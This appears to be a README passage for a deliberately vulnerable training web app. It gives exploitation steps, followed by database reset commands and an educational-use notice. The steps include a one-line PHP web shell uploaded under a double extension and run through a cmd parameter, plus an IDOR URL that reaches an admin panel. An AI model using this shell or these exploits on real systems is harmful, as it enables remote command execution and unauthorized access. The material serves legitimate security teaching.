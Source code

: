 ### File Upload Bypass
1. Login as any user
2. Go to your profile page
3. Upload a file named `shell.php.jpg` containing:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
4. Access: `http://YOUR_IP/uploads/shell.php?cmd=whoami`

### IDOR to Admin Panel
1. Login as regular user
2. Visit: `http://YOUR_IP/user.php?id=1&panel=admin`

## Database Management

### Reset Database
```bash
sudo mysql -u root library_db < reset_db.sql
```

### Remove Malicious Users
```bash
sudo mysql -u root library_db -e "DELETE FROM users WHERE username='hacker';"
```

### Reset User Roles
```bash
sudo mysql -u root library_db -e "UPDATE users SET role='user' WHERE username='john_doe';"
```

## Security Notice

This application is designed for:
- Security training and education
- Penetration testing practice
- Web vulnerability demonstrations
- CTF challenges

**DO NOT:**
- Deploy on public-facing servers
- Use in production environments
- Test on systems without authorization

## Educational Purpose

This project helps security professionals and students understand:
- How SQL injection vulnerabilities work
- File upload security risks
- Access control vulnerabilities
- The importance of secure coding practices
